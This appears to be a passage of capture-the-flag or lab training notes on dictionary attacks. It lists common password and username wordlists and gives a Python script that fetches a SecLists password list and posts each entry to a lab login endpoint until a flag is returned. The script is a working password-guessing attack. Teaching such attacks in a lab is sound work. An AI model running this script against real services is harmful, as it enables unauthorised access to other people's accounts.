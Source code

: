  Instead of a wordlist of every possible combination, a dictionary attack employs a pre-compiled list of words and phrases, which dramateically reduces the search space.

 Wordlists:
 - rockyou.txt
 - top-usernames-shortlist.txt
 - xato-net-10-million-usernames.txt
 - 2023-200_most_used_passwords.txt
 - Default-Credentials/default-passwords.txt

## Dictionary Solver
```shell-session
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
